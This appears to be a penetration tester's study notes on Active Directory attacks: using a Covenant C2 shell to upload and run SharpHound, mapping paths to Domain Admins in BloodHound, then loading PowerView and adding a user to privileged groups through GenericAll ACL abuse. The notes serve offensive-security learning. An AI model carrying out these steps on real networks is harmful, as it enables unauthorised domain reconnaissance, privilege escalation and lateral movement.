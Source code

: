 ## Overview Bloodhound

> Bloohound is a good tool to show us a visual landscape of the domain network.
it shows the hierarchy connection between nodes until the domain controller


in Covenant shell ( medium integrity ):
```powershell
ChangeDirectory C:\Users\Public
upload > path=C:\users\public\sharphound.exe > browse > select SharpHound.exe
```

### Bloodhound
In Covenant:
```powershell
shell sharphound.exe -c all = this will capture all domain objects
sharphound saves into a zip file, go ahead and copy the file name
download <bloodhound.zip>
click in the file inside covenant > save file
```

in kali:
```powershell
apt install bloodhound neo4j
neo4j console
go to localhost:7474 and change de password [ default > neo4j:neo4j ]
bloodhound
```

In BloodHound:
```powershell
drag and drop the bloodhound.zip that we got earlier
Database info
Analysis > Find all domain Admins
Analysis > Find Shortest Paths to Domain Admins > click in connection GenericAll > help > abuse info
```


## Abusing ACLs
upload powerview_dev,ps1 to the target windows machine


load **powerview_dev**
```powershell
. .\powerview_dev.ps1
net user <user1> /domain
net group engineering <user1> /add /domain = we are adding our user to another group, to gain more access
net group "IT ADMINS" <user1> /add /domain = gaining more access
```

> How to know which group to add ourselves?
with bloodhound, it shows which group has **genericAll access**, that allow us to move laterally within groups until there is another set of vulnerabilities we can exploit
